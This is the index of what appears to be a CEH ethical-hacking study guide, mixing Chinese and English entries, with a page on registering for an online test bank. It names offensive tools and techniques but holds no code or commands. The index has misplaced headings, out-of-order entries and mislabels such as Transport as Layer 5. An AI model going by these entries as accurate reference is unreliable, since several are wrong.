- Maltego，Twitter 和，106–107
- 恶意软件
  - 分析，287–288
  - Cuckoo Sandbox，296–300
  - 调试，300–305
  - 反汇编，291–293
  - 动态，296–305
  - 哈希算法，294–296
  - MD5 哈希，294–296
  - SHA（安全哈希算法），294–295
  - 静态，288–296
  - 虚拟环境，287–288
  - VirusTotal，294–295
  - VM（虚拟机），296
  - VMware，288
  - 复习问题答案，515–517
  - 防病毒解决方案，314
  - AV-Test 研究所结果，280
  - 僵尸网络，284–285
  - 创建，Metasploit，308–311
  - 投放器，286–287
  - 加密器，290–291
  - 基础设施，311
    - 命令和控制基础设施（C2/C&C），312
    - Express 库，313–314
    - HTTP（超文本传输协议），313
    - Node.js，313
    - REST（表述性状态传输），313
  - 加壳器，290–291
  - PowerShell 脚本，287
  - 勒索软件，285–286
  - 特洛伊木马，284
  - 病毒，281
    - Elk Cloner，282
    - I Love You，282
    - 阶段，282
    - VBScript 和，282
  - 蠕虫，282
    - Blaster，283
    - Code Red，283
    - HTML，283
    - 莫里斯，罗伯特·T.，282–283
    - Nimda，283
    - 非恶意，283
    - 资源消耗，283
    - 自我传播，282–283
    - Welchia/Nachi，283
  - 编写，305
    - C，306
    - GNU 环境，306
    - IDEs，306
    - 语言，305–308
    - Python，305–306
- 人员陷阱，364–365
- MANs（城域网），34, 45
- masscan
  - 横幅，156–157
  - Web 服务器，155–156
- MAUs（多站点接入单元），18
- MD5（消息摘要 5）哈希算法，252
- 恶意软件分析，294–296
- MegaPing，139, 510
  - IP 扫描器，140
  - 报告，158
  - 扫描类型，157
- 网状拓扑，19–20
- Metasploit，512, 516
  - EternalBlue，242
  - ExploitDB
    - Eternal Blue，244
    - 漏洞利用处理程序，244–245
    - searchsploit 结果，243–244
  - 本地漏洞利用，258
  - 恶意软件创建，308–311
  - 有效载荷，309–311
  - 模块，239–240
  - msfconsole，240–241
  - 持久化，264–265
- 注册表持久化，263
- RMI（远程方法调用），201–202
- 搜索，241
- SMB（服务器消息块），209–212
- SunRPC，199–200
- Meterpreter，245–246, 514
- 恶意软件创建，308–309
- 持久化和，264–265
- 方法论，5
  - 访问，7
  - 覆盖痕迹，8
  - 枚举，6–7
  - 足迹分析，6
  - 侦察，6
  - 扫描，6–7
- MIB（管理信息库），194
- 微信道架构，528
- 迁移，513
- mimikatz，246–247
- MIMO（多输入多输出），389
- 米纳斯提力斯比喻，纵深防御和，71
- Mirai 僵尸网络，4
- 镜像，数据包捕获，336–337
- 米特尼克，凯文，361
- 移动设备
  - Apple, App Store，412
  - 攻击，412–413
  - 安全，411–413
- 模块，Metasploit，239–241
- MPLS（多协议标签交换），36
- MQTT（消息队列遥测传输），42
- msfconsole，240–241
  - Firebox 漏洞利用模块，253–254
- msfvenom，264, 309–310, 517
- MSSB（Microsoft 安全公告），256
- MTU（最大传输单元），323

### N

- n 层应用程序设计，482–484, 528
- NAC（网络访问控制），397
- NASL（网络攻击脚本语言），
- Nessus 和，177
- NAT（网络地址转换），41
- NCP（网络控制程序），15
- Nessus，239
  - 评估选项卡，173
  - 配置设置，172
  - 凭据，173
  - 发现选项卡，173
  - 发现详情，175
  - NASL 脚本，177
  - 插件规则，176
  - 修复列表，176
  - 报告选项卡，173
  - 扫描策略，171–172
  - 扫描结果，174
- netcat，反向连接，259–260
- 网络层（第 3 层）OSI 模型，14
  - IP（互联网协议）和，14
- 网络类型
  - LANs（局域网），34
  - MANs（城域网），34
  - VLANs（虚拟局域网），34
  - WANs（广域网），34
- 网络
  - 复习问题答案，502–503
  - 架构，33–36
    - 可防御的，440–441
  - 布线，16
  - 云计算，36–37
    - IaaS（基础设施即服务），39–40
    - IoT（物联网），43
    - PaaS（平台即服务），40–42
    - SaaS（软件即服务），42–43
    - SaaS（存储即服务），37–39
  - 通信模型，11–12
  - OSI（开放系统互连），12–15
  - TCP/IP 架构，15–16
  - DMZ（非军事区），35
  - 首部，11
  - 集线器，17
  - ICMP（互联网控制报文协议），32–33
  - IP（互联网协议）和地址，25–26
    - 首部，23–25
    - 子网，26–28
  - 隔离，35–36
  - 网络类型
    - LANs（局域网），34
    - MANs（城域网），34
    - VLANs（虚拟局域网），34
    - WANs（广域网），34
  - 物理
    - 地址，21–22
    - 交换，22
  - 协议，12
  - 远程访问，36
  - TCP（传输控制协议）
    - 确认号字段，29–30
    - 校验和字段，30
    - 控制位字段，30
    - 数据偏移字段，30
    - 目标端口字段，29
    - 握手，30
    - 首部，29
    - 选项字段，30
    - 保留字段，30
    - 段，28
    - 序号字段，29
    - 源端口字段，29
    - SYN 消息，30
    - SYN/ACK 消息，30
    - 传输层，28
    - 紧急指针字段，30
    - 窗口字段，30
  - 拓扑
    - 总线，16–17
    - 混合，20–21
    - 网状，19–20
    - 环形，18–19
    - 星形，17–18
  - UDP（用户数据报协议），31
    - 首部，31–32
    - RFCs，31–32
- Nexpose，239
- NFC（近场通信），Bluetooth 和，408
- NICs（网络接口卡），323
- 尼日利亚王子诈骗，361
- NIST（美国国家标准与技术研究院），59, 454
- nmap，142, 509, 512
  - 详细信息，146–147
  - 全连接扫描，143–144
  - OUI（组织唯一标识符），144
  - 脚本
    - 发现脚本，149–150
    - 帮助，150
    - http-waf-detect.nse 文件，150–151
    - 通配符，151–153
  - SYN 扫描，143
  - 系统扫描，148
  - 版本扫描，147
  - XMAS 扫描，145
- Node.js，313
- RESTful 服务，313
- 不可否认性，公钥加密，457
- NoSQL，490–491
- NSA（美国国家安全局），286
- nslookup，112–113
- NTFS（新技术文件系统），513

### O

- OBEX（对象交换）协议，408
- 八位组，25
- Office Online，SaaS（软件即服务），42
- 官方数据，477
- OllyDbg，301, 302–303
- 开源情报
  - 公司，85
  - 域名注册商，87–91


EDGAR (电子数据收集、分析与检索), 86–87
people, information, 93–97
RIR (区域互联网注册机构), 91–93
social networking
- Facebook, 97–100
- job sites, 107–108
- LinkedIn, 100–104
- Twitter, 104–107

OpenSSH, exploits, 236
OpenVAS (Open Vulnerability Assessment System), 160–161, 239
- GSA (Greenbone Security Assistant), 161
- NVT families, 164
- NVT selections, 165
- scan configs, 163–166
- scan results, 168–171
- target setup, 161–163
- tasks, 166–168

OSI (开放系统互连) model, 10, 12
- Application (Layer 7), 13
- Data Link (Layer 2), 13, 14
- Network (Layer 3), 13, 14
- PDUs (protocol data units), 323
- Physical Link (Layer 1), 13, 14
- Presentation (Layer 6), 13
  - ASCII, 13
  - EBCDIC, 13–14
  - JPEG, 14
  - Unicode and, 13
- Session (Layer 5), 13, 14
- Transport (Layer 4), 13, 14

OUI (organizationally unique identifier), 21, 144

## P

PaaS (platform-as-a-service), 40–42
- AMIs (Amazon Machine Images), 40–41
packers (malware), 290–291

packet analysis, 337–338
- Wireshark, 338
  - Conversations view, 340–341
  - Protocol Hierarchy, 339–340

packet capture, 322–323
- BPF (Berkeley Packet Filter), 335
  - filters, complex, 336
  - tcpdump, no filters, 335–336
- hexadecimal representation, 327–328
- PCAP (packet capture) file format, 328
- port mirroring, 336–337
- port spanning, 336–337
- tcpdump, 323–324
  - capturing, additional verbosity and, 326
  - no name resolution, 325
  - no parameters, 324
- Tshark
  - field printing, 330
  - traffic capture, 329
- Wireshark
  - Capture filter, 334–335
  - decryption, 333
  - encryption, 333
  - frames list, 331
  - home screen, 334
  - protocol decoding, 331–332
  - Protocol Hierarchy, 339–340
  - RSA keys, 333
  - statistics, 339
  - TLS information, 332

packet filters, 61–62, 503, 505

packETH, 180–183

packets, 177–178
- fragroute, 183–185
- hping, 178–180
  - UDP port scan, 180
- malformed, 514
- packETH, 180–183

Parkerian Hexad, 55, 505

passive reconnaissance, 117–120

password cracking
- hash algorithms, 248
- John the Ripper, 248–249
- John single crack mode, 249–250
- unshadow, 250
- rainbow tables, 251–252
- passwords
  - /etc/shadow, 247–248
- Meterpreter, 245–246
- mimikatz, 246–247
PCAP (packet capture) file format, 328
PDUs (protocol data units), 21, 323, 503
PE Detective, 290–291
PE files, 288–289, 516
- disassembly, 291–293
- DLL (dynamic link libraries), 288
- packed, 290–291
- properties, 293–294
PEAP (Protected Extensible Authentication Protocol), 396
penetration testing, 5
people, open-source information, 93
- Pipl, 96–97
- theHarvester, 93–95
permissions, Facebook, 100
persistence, 262–263
- Metasploit module, 265
- Meterpreter, 264–265
- msfvenom, 264
- registry persistence, Metasploit, 263
- standalone payload, 264
PGP (Pretty Good Privacy), 95–96, 467–469, 506
PHI (personal health information), 323
phishing, 362
- email, 368–371
- phone call social engineering, 366–367
Physical Link (Layer 1) OSI model, 14
- Wi-Fi, 388–389
physical networking
- addresses, 21–22
- IP (Internet Protocol) and addresses, 25–26
- headers, 23–25
- subnets, 26–28
- switching, 22

physical social engineering, 362–363
- badge access, 363–364
- baiting, 367–368
- biometrics, 365
  - fingerprints, 366
  - iris scanning, 366
  - retinal scanning, 366
  - voiceprint, 366
- man traps, 364–365
- phone calls, 366–367
PII (personally identifiable information), 322–323
ping sweeps, 509
- fping, 137
  - output, 138–139
- MegaPing, 139
- IP scanner, 140
pivoting, 514
- autoroute, 261–262
- IP addresses, configuration, 260–262
plug-ins, 510
PMK (pairwise master key), 395
policies, security policies, 58–59
port mirroring, 336–337
port scans, 136, 141–142
- detailed information, 146–149
- masscan, 155–157
- MegaPing, 157–158
- Nmap, 142
  - detailed information, 146–147
  - full connect scan, 143–144
  - SYN scan, 143
  - XMAS scan, 145
  - scripting, 149–153
- SYN messages, 141
- TCP scanning, 141, 142–145
- UDP scanning, 141, 145–146
- Wireshark, 146
- Zenmap, 153–154, 153–155
  - output, 154
  - XML format, 155
port spanning, 336–337
possession (Parkerian Hexad), 55

## R

PowerShell, FLARE (FireEye Labs Advanced Reverse Engineering) team, 287, 514
Presentation (Layer 6) OSI
- ASCII (American Standard Code for Information Interchange) and, 13
- EBCDIC (Extended Binary Coded Decimal Interchange Code) and, 13–14
- JPEG (Joint Photographic Experts Group), 14
- Unicode and, 13
pretexting, social engineering, 360–362, 521
privilege escalation, 255–256
- Linux, 258–259
  - local exploit, searching for, 257–258
  - local exploit suggestions, 256–257
  - local exploit, Metasploit, 258
  - netcat reverse connection, 259
  - system patch information, 256
  - windows-exploit-suggester.py, 255
process injection
- Meterpreter and, 268
- module, 267–268
protocols, 12
- IRC (Internet Relay Chat), 312
PTK (pair-wise transient key), 395
PTR (pointer) records, 324
Python, 236, 516
- malware writing, 305–306
- windows-exploit-suggester.py, 255
radio traffic, Wireshark and, 391–392
rainbow tables, 250–251, 513
- MD5 (Message Digest 5) hashing algorithm, 252
- rcrack, 252
- rtgen, 251–252
ransomware, 285–286, 517
- WannaCry, 285–286
rcrack, 252
RDP (Remote Desktop Protocol), 41

reciprocity, social engineering and, 359
reconnaissance, 6
- answers to review questions, 506–508
passive, p0f, 117–120
red teaming, 5
relative sequence numbers, 338
remote access, 36
remote exploits, 235
REST (Representational State Transfer), 313
restricted data, 477
retinal scanning, 366
reverse connection, netcat, 259–260
reverse lookups, 324
RFC (Request for Comments) document, 23
RFID (radio frequency identification), badges, 363–364, 521
RHOST, 241
ring topology, 18–19, 502
RIRs (regional Internet registries)
- AfriNIC (African Network Information Center), 91
- ARIN (American Registry for Internet Numbers), 91
- LACNIC (Latin America and Caribbean Network Information Centre), 91
- RIPE NCC (Réseaux IP Européens Network Coordination Centre), 91
- whois query, 92–93
risk, 56–58, 503
RMI (remote method invocation), 200–201, 511, 512
- BaRMIe, 202–203
- Metasploit, 201–202
rogue website attacks
- HTML with applet reference, 375
- watering hole attacks, 374–375
rootkits, 266, 515
RPCs (remote procedure calls), 198, 511
- Session layer and, 14
- SunRPC
  - Metasploit scanner, 199–200
  - rpcinfo list, 198–199
RSA (Rivest-Shamir-Adleman) algorithm, 456
rtgen, 252, 514
RTP (Real-time Transport Protocol), 64

## S

S/MIME (Secure/Multipurpose Internet Mail Extensions), 467–469
SaaS (software-as-a-service), 42–43
SaaS (storage-as-a-service), 37–39
SAINT (Security Administrator's Integrated Network Tool), 160
SARA (Security Auditors Research Assistant), 160
SATAN (Security Analysis Tool for Auditing Networks), 160
SBC (session border controller), 64
scanning, 6–7, 187
- answers to review questions, 508–510
- Bluetooth, 408–409
- ethics, 136
- firewalls and, 137
- packets, 177–185
- ping sweeps
  - fping, 137–139
  - MegaPing, 139–140
- port scans, 136, 141–142
  - detailed information, 146–149
  - masscan, 155–157
  - MegaPing, 157–158
  - Nmap, 142
    - scripting, 149–153
    - TCP scanning, 142–145
    - UDP scanning, 145–146
  - Zenmap, 153–155
- vulnerability scanners, 136, 159–160
scarcity, social engineering and, 359
searching, Metasploit, 241
searchsploit, 236–237
- results, 243–244
SEC (Securities and Exchange Commission), EDGAR, 86–87

secret data, 477
security
- answers to review questions, 503–505
- CIA triad
  - availability, 54
  - confidentiality, 51–52
  - integrity, 53–54
- Parkerian Hexad, 55
- firewalls
  - application layer firewalls, 64–65
  - deep packet inspection, 63–64
  - packet filters, 61–62
  - stateful filtering, 62–63
  - UTM (unified threat management), 65
- guidelines, 60
- IDSs (intrusion detection systems), 65–68
  - placement, 66
  - Snort rules, 67
- IPS (intrusion prevention systems), 68–69
- ISO (International Organization for Standardization), 59
- NIST (National Institute of Standards and Technology), 59
- policies, 58–59
- preparedness
  - auditing, 76–77
  - defense in breadth, 73
  - defense in depth, 71–73
  - logging, 74–76
  - procedures, 60
- risk, 56–58
- SIEM (security information and event management), 69–70
- SOC (security operations center), 70
- standards, 59–60
- technology, 61–70
security architecture, 492
- answers to review questions, 528–529
- attack life cycle, 495
- ISO (International Organization for Standardization), 494
- NIST, 492–494


- 安全模型
  - Bell-LaPadula 模型, 480
  - Biba 完整性模型, 479
  - Clark-Wilson 完整性模型, 480–481
  - 状态机模型, 478–479

- 分段, TCP (传输控制协议), 30

- 自签名证书, 463–465

- 服务枚举
  - Diffie-Hellman 算法, 197
  - SSH2 算法, 196–197
  - 版本扫描, nmap, 195–196

- 面向服务架构, 485
  - REST (表述性状态传输), 485
  - RMI (远程方法调用), 485
  - RPCs (远程过程调用), 485
  - Web 应用程序, 486

- 会话层 (第 5 层) OSI 模型, 14
  - RPCs (远程过程调用) 与, 14

- SET (社会工程师工具包)
  - 文件格式利用载荷, 380–381
  - 大规模邮件发送向量, 380
  - 社会工程攻击, 380
  - 鱼叉式网络钓鱼向量, 380
  - 启动菜单, 379

- SHA (安全哈希算法), 恶意软件分析, 294–295

- shellcode, Exploit-DB 仓库, 237–238

- Shodan, 127–128, 507

- SIEM (安全信息和事件管理), 69–70, 526

- 简单数据分类, 477

- 慢速攻击, 431–432, 524

- SmartSheet, 42

- SMB (服务器消息块), 6, 194, 204–205, 511, 512
  - Metasploit, 209–210, 209–212
  - smb_login 模块选项, 210–212
  - 版本扫描, 210
  - nmap 脚本, 207–208, 207–209
  - 共享枚举, 208–209
  - smb-os-discovery 输出, 208
  - 实用工具, 212–215
    - 内置, 205–207
    - enum4linux, 213–215
    - nbstat 解析的名称, 206–207
    - nbtscan, 212–213
    - nbstat 输出, 205–206
    - nmblookup, 207

- smishing, 362, 520, 521

- SMTP (简单邮件传输协议), 6, 194, 511
  - ESMTP (扩展 SMTP), 511
  - 日志记录与, 74

- 嗅探, 322, 522
  - Airmon-ng, 398–399
  - 复习问题答案, 518–519
  - 从监控接口捕获, 400–401
  - 数据包分析, 337–338
  - Wireshark, 338, 339–340, 340–341
  - 数据包捕获, 322–323
  - BPF (Berkeley 数据包过滤器), 335–336
  - 十六进制表示, 327–328
  - PCAP (数据包捕获) 文件格式, 328
  - 端口镜像, 336–337
  - 端口跨度, 336–337
  - tcpdump, 323–324, 325, 326
  - Tshark, 329, 330
  - Wireshark, 331–332, 333, 334–335, 339–340

- 欺骗攻击
  - ARP (地址解析协议), 342–343, 344–346
  - DNS, 346–347, 347–348
  - SSL 剥离, 348–349, 349–350
  - 带监控接口的 tcpdump, 399–400

- SNMP (简单网络管理协议), 194, 215–216, 511
  - snmpwalk, 216–217
  - snmpwalk, 216–217

- Snort 规则, 67

- SOC (安全运营中心), 70

- 社会工程, 358
  - 419 诈骗, 361
  - 复习问题答案, 519–521
  - 权威, 359
  - 自动化, 379–381
  - 承诺, 359
  - 文件扩展名与, 359
  - 我爱你病毒, 359–360
  - 冒充, 362
  - 好感, 359
  - 尼日利亚王子诈骗, 361
  - 目标, 359
  - 网络钓鱼, 362
  - 物理, 362–363
    - 徽章访问, 363–364
    - 诱饵, 367–368
    - 生物特征, 365–366
    - 人体陷阱, 364–365
    - 电话, 366–367
  - 预设情境, 360–362
  - 互惠, 359
  - 稀缺, 359
  - 短信钓鱼, 362
  - 社会认同, 359
  - 语音钓鱼, 362
  - 网站攻击, 371
    - 克隆, 371–374
    - 流氓攻击, 374–375
    - 无线, 375–378

- 社交网络
  - Facebook, 97–100
  - 招聘网站, 107–108
  - LinkedIn, 100–104
  - Twitter, 104–107

- 社会认同, 社会工程与, 359, 520

- 社会工程师工具包, 379

- SPAN (交换端口分析器), 337, 518

- 欺骗, 518
  - ARP (地址解析协议), 342–343
  - arpspoof, 344
  - 缓存持续时间, 343
  - Ettercap, 344–346
  - DNS, 346–347
  - Ettercap, 347–348
  - SSL 剥离, 348–349
  - Ettercap, 349–350

- SQL (结构化查询语言), 484, 489
  - 注入攻击, 425–427, 524

- SSDP (简单服务发现协议), 325

- SSH (安全外壳协议), OSI 模型, 14

- SSID (服务集标识符), 392, 523

- SSL 剥离欺骗, 348–349, 519
  - Ettercap, 349–350

- SSP (简单安全配对), 蓝牙与, 408

- 星型拓扑, 17–18

- 星形总线拓扑, 502

- 状态机安全模型, 478–479

- 有状态过滤, 62–63
  - TCP (传输控制协议) 与, 62
  - UDP (用户数据报协议) 与, 63

- 隐写术, 515

- 子网, 26–28

- SunRPC (远程过程调用)
  - Metasploit 扫描器, 199–200
  - rpcinfo 列表, 198–199

- 交换, 21–22, 504

- 对称密钥加密, 527
  - AES (高级加密标准), 454–455
  - DES (数据加密标准), 453–454

- SYN 洪水攻击, 432–433, 508, 524

- SYN 消息, 端口扫描, 141

- syslog, 74–75

- 系统攻陷
  - 复习问题答案, 513–515
  - 客户端漏洞, 253–255
  - 攻陷
    - ExploitDB, 243–245
    - Metasploit 模块, 239–242
  - 掩盖痕迹
    - 隐藏数据, 269–271
    - 日志操纵, 268–269
    - 进程注入, 267–268
    - rootkit, 266
  - 时间管理, 271–272

## T

- 漏洞利用
  - Exploit-DB 仓库, 237–238
  - 搜索, 234–236
  - searchsploit, 236–237

- 密码破解
  - John the Ripper, 248–251
  - 彩虹表, 251–252

- 密码
  - /etc/shadow shell 访问, 247–248
  - Meterpreter, 245–246
  - mimikatz, 246–247

- 权限, 235

- 持久化, 262–263
  - Metasploit 模块, 265
  - Meterpreter, 264–265
  - msfvenom, 264
  - 注册表持久化, Metasploit, 263
  - 独立载荷, 264

- 跳板, IP 地址配置, 260–262

- 特权升级, 255–256
  - Linux, 258–259
    - 本地漏洞利用, 搜索, 257–258
    - 本地漏洞利用建议, 256–257
    - 本地漏洞利用, Metasploit, 258
  - netcat 反向连接, 259
  - 系统补丁信息, 256
  - 系统补丁, 特权升级与, 256

- TCP (传输控制协议), 10, 45, 502
  - 确认号字段, 29–30
  - 校验和字段, 30
  - 控制位字段, 30
  - 数据偏移字段, 30
  - 目标端口字段, 29
  - 防火墙, 有状态, 62
  - 握手, 30
  - 标头, 29
  - 选项字段, 30
  - 端口扫描, 141, 142–145
  - 保留字段, 30
  - 分段, 28
  - 序列号字段, 29
  - SMB (服务器消息块), 204
  - 源端口字段, 29
  - SYN 消息, 30
  - SYN/ACK 消息, 30
  - 传输层, 28
  - 传输层与, 14
  - 紧急指针字段, 30
  - 窗口字段, 30

- TCP/IP (传输控制协议/互联网协议), 10, 15–16, 502
  - IMP (接口消息处理器), 15
  - 层, 15–16
  - NCP (网络控制程序), 15

- tcpdump, 323–324, 518, 523
  - BPF (Berkeley 数据包过滤器), 335–336
  - 捕获, 附加详细信息与, 326
  - 十六进制转储, 327–328
  - 不解析名称, 325
  - 无参数, 324
  - 数据包写入, 328

- 测试, 渗透测试, 5

- 时间管理, 271–272

- 时间戳, 272, 513

- TKIP (临时键完整性协议), 394

- TLDs (顶级域), 109

- TLS (传输层安全), 36, 322, 396

- 绝密数据, 477

- 拓扑结构
  - 总线, 16–17
  - 混合, 20–21
  - 网状, 19–20
  - 环形, 18–19
  - 星型, 17–18
  - Wi-Fi 网络, 389–390

- Tor, 漏洞利用, 238

- TPs (转换过程), 481

- 流量, Tshark, 329

- 传输 (第 5 层) OSI 模型, 14
  - TCP (传输控制协议) 与, 14
  - UDP (用户数据报协议) 与, 14

- 木马, 284, 517

- 可信第三方, CA 与, 462–463

- Tshark
  - 字段打印, 330
  - 流量捕获, 329

- Twitter, 507
  - 访问令牌, 104
  - 密钥, 104
    - API 密钥, 104–105
  - Maltego, 106–107
  - recon-ng, 105–106

- VirusTotal, 恶意软件分析, 294–295, 516

- vishing, 362, 520

- Visio Online, 42

- VLANs (虚拟局域网), 34
  - 数据链路层与, 14

- VM (虚拟机), 恶意软件分析, 296

- VMware, 恶意软件分析, 288

- 声纹, 366, 521

- VPNs (虚拟专用网络), 36

- 漏洞, 客户端, Firefox 漏洞利用模块, 253–254

- 漏洞扫描器, 136, 159–160, 509
  - 假阴性, 160
  - 假阳性, 160
  - Nessus, 171–177
    - 评估选项卡, 173
    - 配置设置, 172
    - 凭据, 173
    - 发现选项卡, 173
    - 发现详情, 175
    - NASL 脚本, 177
    - 插件规则, 176
    - 修复列表, 176
    - 报告选项卡, 173
    - 扫描策略, 171–172
    - 扫描结果, 174
  - OpenVAS (开放漏洞评估系统), 160–161
    - GSA, 161
    - NVT 家族, 164
    - NVT 选择, 165
    - 扫描配置, 163–166
    - 扫描结果, 168–171
    - 目标设置, 161–163
    - 任务, 166–168
  - 真阴性, 160
  - 真阳性, 160

## U

- UDIs (非约束数据项), 481, 528

- UDP (用户数据报协议), 10, 31
  - 校验和, 326–327
  - 防火墙, 有状态, 63
  - 标头, 31–32
  - hping, 180
  - 端口扫描, 141, 145
  - RFCs (请求意见稿), 31–32
  - SSDP (简单服务发现协议), 325
  - 传输层与, 14
  - Wireshark, 146

- 未分类数据, 477

- Unicode, 表示层与, 13

- UPnP (通用即插即用), 325

- 实用性 (帕克六要素), 55

- UTM (统一威胁管理), 65

## V

- Venema, Wietse, 160

- 虚拟环境, 恶意软件分析, 287–288

- 病毒, 281, 515
  - Elk Cloner, 282
  - 我爱你, 282
  - 我爱你病毒, 359–360
  - 宏, 282
  - 阶段, 282
  - VBScript 与, 282

## W

- WAF (Web 应用程序防火墙), 64

- WannaCry, 285–286


## W

- 广域网 (WANs), 34, 45
- Wappalyzer, 507
- Web 应用程序攻击, 420–421
- 命令注入, 427–428
- 漏洞利用, 堆喷射, 436
- SQL 注入, 425–427
- XML (可扩展标记语言)
- 外部实体处理, 422–423
- XSS (跨站脚本), 423–424
- 网站攻击, 371
- 克隆, 371–374
- 流氓攻击, 374–375
- 网站情报
- Chrome 开发者工具, 122–123
- Firebug, 122
- 信息收集, 120
- httrack, 123–124
- Netcraft.com 托管历史记录, 120–121
- 站点镜像, 123–124
- Wappalyzer, 122
- WEP (有线等效协议), 376
- WPA-Personal, 394–395
- 白帽子, 4
- Whois 查询, IP 地址, 92–93, 506, 507
- Wi-Fi (无线保真), 388
- 数据链路层, 388–389
- 物理层, 388–389
- Wi-Fi 网络
- 自组织网络, 390
- 关联, 393
- 攻击
- 取消身份验证, 402–404
- 邪恶双胞胎, 404–406
- 密钥重新安装, 406–407
- 嗅探, 398–402
- 身份验证, 392–393
- BSSID (基本服务集标识符), 392
- SSID (服务集标识符), 392
- BYOD (自带设备), 397–398
- 加密, 393–394
- WEP (有线等效协议), 393–394
- WPA (Wi-Fi 保护访问), 394–395
- WPA2 (Wi-Fi 保护访问 2), 395–397
- 基础设施, 391
- 社会工程学, 375–378
- 拓扑, 389–390
- WEP (有线等效协议), 376
- wifiphisher, 377–378
- WPA (Wi-Fi 保护访问), 376
- wifiphisher, 377–378
- SSID, 377–378
- Windows, 事件查看器
- 审核策略, 76
- 日志记录, 75
- Windows 调试器, 301
- windows-exploit-suggester.py, 255
- WinRM (Windows 远程管理), 437
- 无线安全
- 复习题答案, 522–524
- 蓝牙, 407
- A2DP (高级音频分发), 407
- Bluebugging, 410
- Bluesjacking, 409
- Bluesnarfing, 410
- NFC (近场通信), 408
- PIN, 407
- 扫描, 408–409
- SSP (简单安全配对), 408
- IEEE (电气和电子工程师学会), 388
- 移动设备, 411
- 攻击, 412–413
- Wi-Fi (无线保真), 388
- 无线社会工程学, 375–378
- Wireshark, 322, 518, 519, 523
- 捕获过滤器, 334–335
- 会话视图, 340
- 统计信息, 341
- 解密, 333
- 加密, 333
- 专家信息, 341
- 跟随 TCP 流对话框, 339
- 帧列表, 331
- 主屏幕, 334
- 数据包分析, 338
- 协议解码, 331–332
- 协议层次结构, 339–340
- 无线电头, 401–402
- 无线电流量捕获, 391–392
- 相对序列号, 338
- RSA 密钥, 333
- TLS 信息, 332
- 蠕虫, 515
- Blaster, 283
- Code Red, 283
- HTML, 283
- 莫里斯, 罗伯特·T., 282–283
- Nimda, 283
- 非恶意, 283
- 资源消耗, 283
- 自我传播, 282–283
- Welchia/Nachi, 283
- WPA (Wi-Fi 保护访问), 376, 394–395, 522
- CRC (循环冗余校验), 394
- EAP (可扩展身份验证协议), 395
- TKIP (临时密钥完整性协议), 394
- WPA-Personal, 394–395
- WPA2 (Wi-Fi 保护访问 2), 395–397
- 四次握手, 395–396

## X

- XMAS 扫描, 145
- XML (可扩展标记语言)
- 外部实体处理, 422–423
- XSS (跨站脚本), 423–424

## Z

- Zenmap, 153–154, 187
- 输出, 154
- XML 格式, 155
- ZeuS 僵尸网络, 284–285
- 区域传输, 115–117

## 综合在线学习环境

注册即可免费一年访问在线交互式学习环境和题库，帮助您备考 CEH 认证考试——随本书购买赠送！

在线题库包含以下内容：

- **章节测试** 以巩固您所学的内容
- **模拟考试** 以测试您对材料的掌握情况
- **数字闪存卡** 以巩固您的学习并在考试前提供最后时刻的考试准备
- **可搜索词汇表** 以定义您为考试需要知道的关键术语

## 注册并访问在线题库

要注册您的书籍并获取在线题库访问权限，请执行以下步骤：

1. 访问 bit.ly/SybexTest。
2. 从列表中选择您的书籍。
3. 完成所需的注册信息，包括回答安全验证以证明图书所有权。您将收到一封包含 PIN 码的电子邮件。
4. 按照电子邮件中的说明操作，或访问 www.wiley.com/go/sybextestprep。
5. 输入您收到的 PIN 码，然后单击“激活 PIN”按钮。
6. 在“创建帐户或登录”页面上，输入用户名和密码，然后单击“登录”。将显示“感谢您激活 PIN！”消息。如果您还没有帐户，请创建新帐户。
7. 单击“转到我的帐户”按钮，将新书添加到“我的产品”页面。

